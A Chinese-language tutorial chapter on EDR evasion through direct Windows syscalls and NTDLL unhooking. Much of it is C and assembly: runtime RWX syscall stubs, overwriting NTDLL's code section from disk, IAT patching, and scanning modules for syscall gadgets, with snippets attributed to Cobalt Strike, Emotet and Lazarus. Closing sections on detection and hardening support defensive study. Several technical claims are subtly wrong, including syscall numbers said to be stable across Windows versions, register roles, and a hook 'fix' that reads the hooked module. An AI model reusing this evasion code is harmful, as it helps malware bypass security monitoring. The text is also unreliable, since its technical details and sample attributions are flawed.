

# 恶意代码分析与免杀对抗（12）· 直接系统调用与unhooking

> [!abstract] TL;DR
> - 恶意代码通过直接 syscall 调用绕过用户态 hook，是现代免杀对抗的标志性技术
> - NTDLL.DLL 中的 stub 函数作为 User-Kernel 的桥梁，被 EDR/杀软 hook 已成防御常规手段
> - Unhooking 包括 stub 还原、间接 syscall 调用、导入表修复、内存重新映射等多重对抗层次
> - 直接 syscall 本质是利用 Windows 系统调用的稳定性和可预测的系统调用号，突破用户态监控
> - 现代 EDR 的应对包括内核驱动级监控、CallStack 签名、行为关联分析，使该技术逐步从"银弹"演变为"定制对抗"

# 恶意代码分析与免杀对抗（12）· 直接系统调用与unhooking

## 概述与定位

**系统调用（System Call）**是应用程序与内核通信的唯一合法接口。在 Windows 平台，恶意代码通过直接调用系统调用（syscall）来绕过位于用户态的 API hook 机制，是免杀对抗的核心技术之一。

这项技术之所以成为恶意代码的"标志性武器"，在于它击中了当代安全防御的一个关键弱点：**防御工具大多在用户态部署 hook**（拦截 NTDLL、KERNEL32 等导入函数），而直接 syscall 规避了这一层，直接与内核交互。从 2019-2020 年的 Cobalt Strike 引入 `syscall` 实现，到现在几乎所有高级恶意代码都采纳这一技术，足以说明其实战价值。

本篇的定位是：
1. **揭示系统调用的本质机制** —— 从 x86-64 指令级讲清 syscall 如何发起、参数传递、返回值处理
2. **系统化阐述 unhooking 技术全谱** —— 从 stub 修复到内存重映射，从被动还原到主动规避
3. **对标防御进化路径** —— EDR 如何从用户态监控升级到内核驱动、CallStack 签名、行为关联
4. **实战工具与代码示例** —— 给出可复现的技术栈，而不仅是原理讲述

本篇与相邻篇章的边界划分：
- 上一篇（11. 免杀原理）重点是**混淆、加密、多级加载**，本篇关注**API-Level 对抗**
- 下一篇（13. C2 框架）侧重**网络通信与后控**，本篇关注**本地执行隐蔽性**

## 原理与机制

### Windows 系统调用的三层架构

Windows API 调用的执行链路可分为三层：

```
[User-Mode Appl.]
       ↓
   KERNEL32.DLL / NTDLL.DLL  ← Hook 通常部署在此层
       ↓
   syscall stub (INT 0x2E / SYSCALL / SYSENTER)
       ↓
   [Kernel-Mode Driver / Ntoskrnl.exe]
       ↓
   [Return to User-Mode]
```

#### 第一层：导出 API 函数

诸如 `CreateProcessA`、`WriteFile`、`CreateRemoteThread` 等公开 API 位于 `KERNEL32.DLL` 中，由 Windows 提供文档和符号，广为人知。防御工具可轻易 hook 这些函数。

#### 第二层：Native API（NTDLL）

NTDLL.DLL 中的函数（如 `NtCreateProcess`、`NtWriteFile`、`NtCreateThreadEx`）是更低层级的 native API，作为 KERNEL32 的底层实现。这些函数的存在与结构相对稳定（跨 Windows 版本），是直接 syscall 的桥梁。

一个典型的 NTDLL stub 在 x86-64 架构上的指令序列（Windows 10/11）：

```
NtCreateProcessEx:
  MOV R10, RCX          ; 参数从 RCX 移到 R10
  MOV EAX, [syscall_number]  ; 系统调用号放入 EAX
  SYSCALL               ; 触发系统调用
  RET
```

关键点：
- **EAX 寄存器**存放系统调用号（例如 `NtCreateProcess` 可能是 `0x26`，跨版本会变化）
- **R10 和 RAX** 用于传递参数（RCX 被用作 R10，保留 RCX 作为 KernelBase 返回值提示）
- **SYSCALL 指令** 触发特权级过渡

#### 第三层：内核实现

内核驱动或 Ntoskrnl.exe 接收系统调用请求，验证参数，执行实际操作，返回结果。

### Syscall 指令与特权级过渡

**SYSCALL 指令**在 x86-64 中的行为：

1. 保存用户态 RIP 到 RCX
2. 保存用户态 RFLAGS 到 R11
3. 从 MSR_LSTAR（SYSCALL 处理器地址）取值加载到 RIP
4. 切换特权级到内核模式（Ring 0）
5. 执行内核代码
6. 内核使用 SYSRET 返回用户态，RIP 从 RCX 恢复

这一过程**完全绕过了用户态的 hook**，因为 hook 是在执行 SYSCALL 指令之前被植入的，而一旦执行 SYSCALL，控制权直接转移到内核。

### Hook 机制与检测点

#### 用户态 Hook 的部署位置

防御工具的 hook 通常部署在：

1. **导入表 Hook**：修改 KERNEL32.DLL 的 IAT（Import Address Table），使函数指针指向 hook 函数
2. **Inline Hook**：在函数入口处写入跳转指令，跳转到 hook 函数
3. **NTDLL 层 Hook**：直接修改 NTDLL.DLL 的 stub 函数内存，植入 `JMP` 或 `INT 0x3` 指令

举例，一个被 hook 的 NTDLL stub 可能看起来如下（pseudo-code）：

```
NtCreateProcessEx (原始):
  MOV R10, RCX
  MOV EAX, 0x26
  SYSCALL
  RET

NtCreateProcessEx (被 hook 后):
  JMP [hook_function_address]  ; Inline Hook
  ...
```

#### 为什么 Hook NTDLL 最有效

- NTDLL 是所有 Native API 的统一入口
- 几乎所有 Win32 API 最终都会调用 NTDLL 中的对应函数
- Hook NTDLL 意味着一次部署拦截全部 API

### Hook 检测的反向工程

恶意代码可通过以下方式检测 NTDLL 是否被 hook：

#### 方法 1：内存对比

对比内存中的 NTDLL 与磁盘上的原始文件（需要能访问 System32 目录），如果指令序列不同则判定为被 hook。

#### 方法 2：指令扫描

扫描 NTDLL 中 syscall stub 的第一字节，如果不是预期的指令则判定为被 hook。例如，x86-64 上 NTDLL 中的 stub 通常以 `0x4C 0x8B 0xD1`（MOV R10, RCX）开头，如果是 `0xE9`（JMP）或 `0xCC`（INT 0x3）则表示被 hook。

## 直接系统调用与 Unhooking 技术详解

### 获取系统调用号

系统调用号是 EAX 寄存器中放入的数值，用于告知内核执行哪个操作。Windows 系统调用号**跨版本不一致**，这是 unhooking 的第一个复杂性。

#### 系统调用号的版本差异

| 系统调用      | Win 10 21H2 | Win 11 22H2 | Win Server 2019 |
|---|---|---|---|
| NtCreateProcess | 0x26 | 0x26 | 0x26 |
| NtWriteFile | 0x09 | 0x09 | 0x09 |
| NtCreateThreadEx | 0xB1 | 0xB1 | 0xB1 |
| NtQueryVirtualMemory | 0x23 | 0x23 | 0x23 |

注意：某些新 API（如 NtCreateProcessEx 的参数变化）可能在新版本中增加新的系统调用号，但核心 syscall 号的**稳定性高于 API 层**。

#### 获取系统调用号的方法

**方法 1：内存扫描 NTDLL**

扫描 NTDLL 中的 stub 函数，查找 `MOV EAX, [number]` 指令的立即数：

```c
// 伪代码
BYTE* stub_addr = (BYTE*)GetProcAddress(ntdll, "NtCreateProcess");
// 扫描 MOV EAX 指令：0xB8 + 4字节立即数
if (stub_addr[0] == 0xB8) {
    DWORD syscall_num = *(DWORD*)(stub_addr + 1);
    // syscall_num 即为该函数的系统调用号
}
```

**方法 2：构建系统调用号映射表**

硬编码常见系统调用号（已被众所周知），或在运行时构建。例如：

```c
typedef struct {
    const char *name;
    DWORD syscall_num_win10;
    DWORD syscall_num_win11;
} SYSCALL_TABLE;

SYSCALL_TABLE table[] = {
    {"NtCreateProcess", 0x26, 0x26},
    {"NtWriteFile", 0x09, 0x09},
    // ...
};
```

### 直接 Syscall 调用的实现

#### 汇编级实现

最直接的方法是用内联汇编或独立的 .asm 文件实现 syscall 调用：

```asm
; syscall.asm (x86-64 MASM 语法)
.code
NtCreateProcess_Syscall PROC
    ; RCX = FirstArgument, RDX = SecondArgument, ...
    ; 参数按 x64 calling convention 传入
    mov r10, rcx        ; R10 = FirstArgument
    mov eax, 26h        ; EAX = NtCreateProcess syscall number
    syscall             ; 系统调用
    ret
NtCreateProcess_Syscall ENDP
END
```

调用方式：

```c
// C 代码
typedef NTSTATUS (NTAPI *pNtCreateProcess)(
    PHANDLE ProcessHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    HANDLE ParentProcess,
    BOOLEAN InheritHandles,
    HANDLE SectionHandle,
    HANDLE DebugPort,
    HANDLE ExceptionPort
);

// 声明汇编函数
extern pNtCreateProcess NtCreateProcess_Syscall;

// 调用
HANDLE process_handle;
pNtCreateProcess(&process_handle, ...);
```

#### 动态生成 Syscall Stub

另一种对抗方法是在运行时动态生成 syscall stub，而不依赖预编译的汇编：

```c
// 动态生成 syscall stub
BYTE syscall_stub[] = {
    0x4C, 0x8B, 0xD1,           // MOV R10, RCX
    0xB8, 0x26, 0x00, 0x00, 0x00, // MOV EAX, 0x26
    0x0F, 0x05,                  // SYSCALL
    0xC3                          // RET
};

// 分配可执行内存并复制
LPVOID stub_ptr = VirtualAlloc(NULL, sizeof(syscall_stub), 
                               MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(stub_ptr, syscall_stub, sizeof(syscall_stub));

// 转换为函数指针并调用
typedef NTSTATUS (*pSyscall)(HANDLE, ...);
pSyscall func = (pSyscall)stub_ptr;
func(process_handle, ...);

// 使用后释放
VirtualFree(stub_ptr, 0, MEM_RELEASE);
```

这种方法的优势是：
- 完全绕过磁盘上的 NTDLL
- 避免被静态扫描检测到
- 可根据运行时决定的系统调用号动态生成

### Unhooking 的多层技术

#### 技术 1：NTDLL 还原（Restoration）

目标是将内存中被修改的 NTDLL stub 函数还原为原始状态。

**步骤**：
1. 从磁盘读取 NTDLL.DLL 文件
2. 获取内存中 NTDLL 的基址
3. 比对磁盘与内存的相应段，找出差异
4. 用磁盘版本覆盖内存版本（通常仅覆盖 .text 段，即代码段）

```c
// 简化示例
HMODULE ntdll_base = GetModuleHandle(L"ntdll.dll");
HANDLE file = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll", 
                          GENERIC_READ, FILE_SHARE_READ, NULL, 
                          OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

// 读磁盘 NTDLL
DWORD file_size = GetFileSize(file, NULL);
LPVOID file_buffer = malloc(file_size);
DWORD bytes_read;
ReadFile(file, file_buffer, file_size, &bytes_read, NULL);

// 解析 PE 头，找到 .text 段
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)file_buffer;
PIMAGE_NT_HEADERS nt_headers = (PIMAGE_NT_HEADERS)
    ((BYTE*)file_buffer + dos_header->e_lfanew);
PIMAGE_SECTION_HEADER sections = (PIMAGE_SECTION_HEADER)
    ((BYTE*)nt_headers + sizeof(IMAGE_NT_HEADERS));

// 查找 .text 段
for (int i = 0; i < nt_headers->FileHeader.NumberOfSections; i++) {
    if (strcmp((char*)sections[i].Name, ".text") == 0) {
        // 覆盖内存中的 .text 段
        memcpy((BYTE*)ntdll_base + sections[i].VirtualAddress,
               (BYTE*)file_buffer + sections[i].PointerToRawData,
               sections[i].SizeOfRawData);
        break;
    }
}

free(file_buffer);
CloseHandle(file);
```

**局限性**：
- 需要访问磁盘上的原始文件（某些环境可能限制访问）
- 仅修复 NTDLL 本身，不保护其他被 hook 的 DLL
- 某些 EDR 可能在 NTDLL 还原后立即重新 hook

#### 技术 2：导入表修复（IAT Patching）

恶意代码可遍历自身模块的 IAT，直接用 NTDLL 中的真实函数地址替换 hook 地址。

```c
// 获取 IAT 并修复
HMODULE module = GetModuleHandle(NULL);  // 当前模块
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)module;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)
    ((BYTE*)module + dos->e_lfanew);
PIMAGE_IMPORT_DESCRIPTOR import_desc = (PIMAGE_IMPORT_DESCRIPTOR)
    ((BYTE*)module + nt->OptionalHeader.DataDirectory
     [IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);

// 遍历导入表
for (; import_desc->Name; import_desc++) {
    char *dll_name = (char*)((BYTE*)module + import_desc->Name);
    if (_stricmp(dll_name, "ntdll.dll") != 0) continue;
    
    PIMAGE_THUNK_DATA thunk = (PIMAGE_THUNK_DATA)
        ((BYTE*)module + import_desc->FirstThunk);
    
    // 遍历 IAT 条目
    for (; thunk->u1.Function; thunk++) {
        PIMAGE_IMPORT_BY_NAME import_name = (PIMAGE_IMPORT_BY_NAME)
            ((BYTE*)module + thunk->u1.AddressOfData);
        
        // 从 NTDLL 中获取原始函数地址（绕过 hook）
        LPVOID original_func = GetProcAddress(ntdll_base, 
            (const char*)import_name->Name);
        
        // 修复 IAT 条目
        DWORD old_protect;
        VirtualProtect(&thunk->u1.Function, sizeof(PVOID), 
                       PAGE_READWRITE, &old_protect);
        thunk->u1.Function = (ULONGLONG)original_func;
        VirtualProtect(&thunk->u1.Function, sizeof(PVOID), 
                       old_protect, &old_protect);
    }
}
```

#### 技术 3：内存重映射（Memory Remapping）

这是一种更激进的方法：创建一个"干净的" NTDLL 副本，映射到不同的内存地址，从而从这个副本中获取未被 hook 的函数。

```c
// 从磁盘读取 NTDLL，映射到内存（不使用系统已加载的 NTDLL）
HANDLE file = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll", 
                          GENERIC_READ, FILE_SHARE_READ, NULL, 
                          OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
HANDLE mapping = CreateFileMappingW(file, NULL, PAGE_READONLY, 0, 0, NULL);
LPVOID view = MapViewOfFile(mapping, FILE_MAP_READ, 0, 0, 0);

// 此时 view 指向的 NTDLL 是"干净"的副本，不受 hook 影响
LPVOID clean_ntdll = view;

// 从干净副本中获取函数地址
LPVOID func_ptr = (BYTE*)clean_ntdll + rva_offset;

// 调用函数
// ...

UnmapViewOfFile(view);
CloseHandle(mapping);
CloseHandle(file);
```

注意：这种方法需要手动处理 PE 重定位（relocations），因为重映射后的基址可能与原始基址不同。

#### 技术 4：间接 Syscall（Indirect Syscall）

与其说"还原" hook 的 NTDLL，不如从**其他干净的系统 DLL** 中借用 syscall stub。许多系统 DLL（如 kernel32.dll）可能内嵌有 syscall 指令，恶意代码可扫描这些 DLL 找到 syscall gadget，用于间接触发系统调用。

```c
// 扫描 kernel32.dll 查找 syscall 指令
HMODULE kernel32 = GetModuleHandle(L"kernel32.dll");
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)kernel32;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)
    ((BYTE*)kernel32 + dos->e_lfanew);

BYTE *code = (BYTE*)kernel32;
BYTE *code_end = code + 0x1000000;  // 假设 1MB 的代码段

// 查找 SYSCALL 指令（0x0F 0x05）
for (BYTE *p = code; p < code_end - 1; p++) {
    if (p[0] == 0x0F && p[1] == 0x05) {
        // 找到 SYSCALL 指令
        LPVOID syscall_addr = (LPVOID)p;
        // 使用这个地址作为 gadget
        break;
    }
}
```

这种技术的优势：
- 不修改 NTDLL，隐蔽性更高
- 系统 DLL 通常不会因为 syscall 而被重点 hook（hook 的是 API 入口）

### 防御规避的演进

现代 EDR 已经意识到 syscall 的威力，部署了多层次的检测与阻止：

#### 防御层 1：内核驱动监控

EDR 在内核驱动中部署 callback，监控所有进程的系统调用。当恶意进程执行特定的危险系统调用（如 `NtCreateRemoteThread`、`NtAllocateVirtualMemory`）时，驱动可以：
- 记录调用栈
- 获取调用进程的上下文
- 阻止/审计调用

这一层对恶意代码是**透明的**，即使绕过了用户态 hook，仍然无法逃脱内核级监控。

#### 防御层 2：CallStack 签名

EDR 的内核驱动可检查系统调用的来源栈。正常应用的 syscall 栈通常为：

```
User App → NTDLL (legitimate stub) → SYSCALL
```

而恶意代码的栈可能是：

```
User App → [dynamically generated code] → SYSCALL
```

或

```
User App → [jitted/interpreted code] → SYSCALL
```

EDR 可检查栈中的返回地址是否指向合法的 NTDLL stub，若否则标记为异常。

**对抗方案**：
- ROP chain 模拟合法栈
- 使用已加载模块的真实地址
- 伪造栈帧

#### 防御层 3：行为关联分析

单个 syscall 的绕过可能逃脱检测，但多个异常 syscall 的组合行为（如 `NtAllocateVirtualMemory` + `NtWriteFile` + `NtCreateThreadEx`）在短时间内连续发生，仍可能被标记为恶意。EDR 通过机器学习模型或基于规则的引擎，将 syscall 序列与已知 APT 行为关联。

## 工具视角与实战

### 开源 Unhooking 工具

#### 1. Syscall Stub 生成器

许多 C2 框架（如 Cobalt Strike 4.0+）集成了 syscall stub 生成器：

```c
// 伪代码：Cobalt Strike syscalls
syscall_asm_stub syscalls[] = {
    {"NtCreateThreadEx", 0xB1, ""},
    {"NtAllocateVirtualMemory", 0x18, ""},
    {"NtWriteFile", 0x09, ""},
    // ...
};
```

在生成 Shellcode 时，这些工具会内联生成未被 hook 的 syscall stub，从而绕过防御。

#### 2. Unhooking 工具包（如 Hwnd2Shellcode 家族）

```bash
# 某些工具的使用方式
$ unhooker.exe --target ntdll.dll --restore
$ unhooker.exe --target all --check-hooks
```

#### 3. 手工验证 Hook 状态

使用 WinDBG 或类似调试器，检查 NTDLL 的内存：

```
# WinDBG 命令
!dh ntdll.dll              # 显示 DLL 信息
u <NtCreateProcess addr>   # 反汇编指定函数
s <address> L100 0F 05     # 搜索 SYSCALL 指令（0x0F 0x05）
```

### 实战案例分析

#### 案例 1：Cobalt Strike 的 Syscall 实现

Cobalt Strike 4.0 引入了 indirect syscall，其机制如下：

1. **Syscall 号的硬编码与版本检测**

```c
// 在生成时检测目标 Windows 版本
DWORD get_syscall_num(const char *func_name) {
    DWORD windows_version = get_windows_version();
    
    if (windows_version == WIN10) {
        if (strcmp(func_name, "NtCreateThreadEx") == 0)
            return 0xB1;  // Win10
    } else if (windows_version == WIN11) {
        if (strcmp(func_name, "NtCreateThreadEx") == 0)
            return 0xB1;  // Win11 相同
    }
    // ...
}
```

2. **运行时 Shellcode 中的 Syscall 执行**

Shellcode 包含内联的 syscall stub，完全独立于 NTDLL：

```
0x00000000: 4C 8B D1              MOV R10, RCX
0x00000003: B8 B1 00 00 00        MOV EAX, 0xB1
0x00000008: 0F 05                 SYSCALL
0x0000000A: C3                    RET
```

3. **参数传递的适配**

Cobalt Strike 的 Shellcode 参数传递遵循 x64 calling convention（RCX, RDX, R8, R9），但 syscall 要求第一个参数在 R10 中，因此生成的代码会自动进行转换。

#### 案例 2：Emotet 的多层 Unhooking

Emotet（在被 Takedown 前）使用了多层 unhooking：

1. **检测 NTDLL Hook**

```c
// 扫描 NTDLL 中的 stub，检查是否被修改
BOOL is_ntdll_hooked() {
    HMODULE ntdll = GetModuleHandle(L"ntdll.dll");
    BYTE *stub = (BYTE*)GetProcAddress(ntdll, "NtCreateRemoteThread");
    
    // 预期起始字节：MOV R10, RCX (0x4C 0x8B 0xD1)
    return !(stub[0] == 0x4C && stub[1] == 0x8B && stub[2] == 0xD1);
}
```

2. **多版本支持**

```c
// Emotet 维护了一个硬编码的版本表
typedef struct {
    DWORD win_version;
    DWORD syscall_num[50];  // 常用 API 的 syscall 号
} VERSION_TABLE;

VERSION_TABLE version_table[] = {
    {0x0A00, {0x26, 0x09, ...}},  // Win10
    {0x0A01, {0x26, 0x09, ...}},  // Win10 1803
    {0x0B00, {0x26, 0x09, ...}},  // Win11
};
```

3. **动态 Syscall 生成与执行**

```c
// 在内存中动态生成 syscall stub，避免被扫描识别
LPVOID generate_syscall_stub(DWORD syscall_num) {
    BYTE stub[] = {
        0x4C, 0x8B, 0xD1,           // MOV R10, RCX
        0xB8, 0, 0, 0, 0,           // MOV EAX, [syscall_num]
        0x0F, 0x05,                 // SYSCALL
        0xC3                        // RET
    };
    *(DWORD*)(stub + 4) = syscall_num;
    
    // 分配可执行内存
    LPVOID mem = VirtualAlloc(NULL, sizeof(stub), 
                              MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(mem, stub, sizeof(stub));
    return mem;
}
```

#### 案例 3：Lazarus 的 Syscall Gadget 查找

Lazarus（朝鲜 APT）的某些样本使用了更复杂的方法——从已加载的系统 DLL 中查找 syscall gadget：

```c
// 扫描所有已加载的 DLL，查找包含 syscall 的代码片段
LPVOID find_syscall_gadget() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, GetCurrentProcessId());
    MODULEENTRY32 module;
    module.dwSize = sizeof(MODULEENTRY32);
    
    if (Module32First(snapshot, &module)) {
        do {
            BYTE *base = (BYTE*)module.modBaseAddr;
            DWORD size = module.modBaseSize;
            
            // 扫描 SYSCALL (0x0F 0x05) 指令
            for (DWORD i = 0; i < size - 1; i++) {
                if (base[i] == 0x0F && base[i+1] == 0x05) {
                    // 检查前序指令是否与 syscall 调用兼容
                    if (is_valid_syscall_prefix(base, i)) {
                        return (LPVOID)(base + i);
                    }
                }
            }
        } while (Module32Next(snapshot, &module));
    }
    
    CloseHandle(snapshot);
    return NULL;
}
```

### 实战检测与响应

#### 检测 Syscall 使用的方法

1. **内核驱动事件日志**

```
EventLog:
  - SystemCall ID: 0xB1 (NtCreateThreadEx)
  - Caller Module: unknown (不在已知模块列表中)
  - CallStack: suspicious (非 NTDLL stub 的调用)
```

2. **动态内存扫描**

使用内存取证工具（如 Volatility）检查进程地址空间中的可执行内存：

```bash
$ volatility -f memory.dmp --profile=Win10x64 malfind -p <PID>
# 输出：发现 PAGE_EXECUTE_READWRITE 的可疑代码段
```

3. **行为关联**

关联多个系统调用的组合：

```
Timeline:
  T+0ms: NtAllocateVirtualMemory (rwx权限)
  T+5ms: NtWriteFile (向新分配内存写入数据)
  T+10ms: NtCreateThreadEx (在新分配内存中创建线程)
  → 关联评分：HIGH RISK（典型的代码注入行为）
```

## 安全性与正确使用

> [!caution] 合规边界与责任声明
> 
> 本篇讲述的 syscall、unhooking 技术仅应用于：
> - **自有或授权的系统与应用**：对自有服务器、业务系统进行渗透测试或加固
> - **CTF 靶场与学术研究**：在隔离实验环境中验证防御机制
> - **安全产品开发**：EDR/防病毒厂商在产品化对抗时的防御研发
> 
> **严格禁止**：
> - 针对真实生产系统或他人系统的武器化利用
> - 未经授权对他人系统部署恶意代码
> - 绕过商业授权或知识产权保护
> 
> 本篇的原理讲述是**防御与教育导向**，不提供针对真实目标的成品武器化步骤。所有代码示例均可根据防御需要适配为检测、分析、加固逻辑。

### 防御视角

#### 1. EDR 部署的最佳实践

- **多层监控**：不仅监控用户态 API，更要在内核驱动层部署 syscall callback
- **CallStack 验证**：检查 syscall 的发起地址，确保来自合法的 NTDLL 或已知的系统 DLL
- **版本-系统调用号映射**：维护准确的版本表，检测异常的系统调用号组合
- **行为关联引擎**：不仅看单一 syscall，更看其在进程生命周期中的位置和序列

#### 2. 应用代码的自我保护

- **代码完整性校验**：定期检查自身的导入表是否被修改
- **NTDLL 指纹**：在启动时对 NTDLL 的关键函数进行校验和，确保未被 hook
- **异常行为检测**：如果检测到 NTDLL 被 hook 但应用本身无法绕过时，应主动崩溃或退出，而不是继续运行（某些金融应用已采纳此策略）

#### 3. 系统加固

- **代码签名强制**：启用 Windows 代码完整性（Code Integrity）检查，确保只有签名的代码能执行
- **Virtualization Based Security (VBS)**：在虚拟化的内核模式下隔离敏感代码，对恶意代码的直接 syscall 施加额外的验证
- **Control Flow Guard (CFG) / Exploit Protection**：限制间接调用和代码执行的来源

### 恶意代码的对抗链

恶意代码与防御的对抗演进可视化为：



从这个链条可看出，**单一技术的有效期在不断缩短**。从早期 KERNEL32 Hook 可防御数年，到现在 syscall 的"有效期"可能只有数月至一年（直到 EDR 升级到内核驱动监控）。

### 版本与平台特异性

#### Windows 版本差异

| 功能 | Win7 | Win10 | Win11 |
|---|---|---|---|
| SYSCALL 指令支持 | ✓ | ✓ | ✓ |
| Syscall 号稳定性 | 相对稳定 | 较稳定 | 较稳定（添加新 API 时增加号） |
| CFG 支持 | ✗ | ✓ | ✓ |
| VBS 支持 | ✗ | ✓（可选） | ✓（推荐） |

#### ARM64 的特殊性

在 ARM64 架构上（Windows on ARM），系统调用的机制略有不同：
- 使用 `SVC` 指令代替 `SYSCALL`
- 系统调用号的编码方式不同
- 参数传递遵循 ARM64 ABI

恶意代码的 unhooking 和 syscall 实现需要针对 ARM64 进行适配。

## 小结

直接系统调用与 unhooking 技术代表了现代恶意代码免杀对抗的关键转折点。从**用户态 API 层的 hook** 开始，防御工具不得不逐步向内核深入，最终演变为**内核驱动级的 syscall 监控**、**CallStack 验证**、**行为关联分析**等多层防御。

**技术本质**：
- 恶意代码利用 Windows 系统调用的稳定性和可预测性，绕过用户态监控
- Syscall stub 作为用户态与内核的桥梁，是对抗的核心阵地
- Unhooking 包括直接 syscall、NTDLL 还原、IAT 修复、内存重映射等多种方法

**防御进化**：
- 从被动的 API hook 到主动的内核驱动监控
- 从单点检测到行为关联分析与机器学习
- 从技术层面的对抗到供应链安全与网络检测的配合

**学习启示**：
- 理解系统调用是逆向工程与安全分析的必备知识
- 单一对抗技术的有效期有限，复合防御的重要性不言而喻
- 恶意代码的防御规避并非"永恒"，而是在与防御工具的持续博弈中演进

本篇的深度理解，为后续 C2 框架、恶意通信协议、高级 APT 技术的分析奠定基础。

## 相关阅读

- [[32.hooks/11-process-injection|进程注入技术全谱]]（本技术的上游应用场景）
- [[32.hooks/12-kernel-hook|内核 Hook 与驱动级防御]]（防御对抗的内核演进）
- [[32.hooks/15-etw|ETW 与事件跟踪]]（系统级监控的另一维度）
- [[53.数字取证与事件响应/00.数字取证与事件响应总览|数字取证与事件响应]]（内存取证验证行为）
- [[72.抓包与协议分析实战/12.流量特征分析与检测绕过|流量特征分析]]（网络层检测的补充）
- [[11.免杀原理：混淆与加密与加载器|上一章：免杀原理]]（技术基础）
- [[13.C2框架与通信协议|下一章：C2 框架与通信协议]]（实战应用）

---

[[00.恶意代码分析与免杀对抗总览|⬆ 系列总览]] | [[11.免杀原理：混淆与加密与加载器|← 上一章]] | [[13.C2框架与通信协议|→ 下一章]]
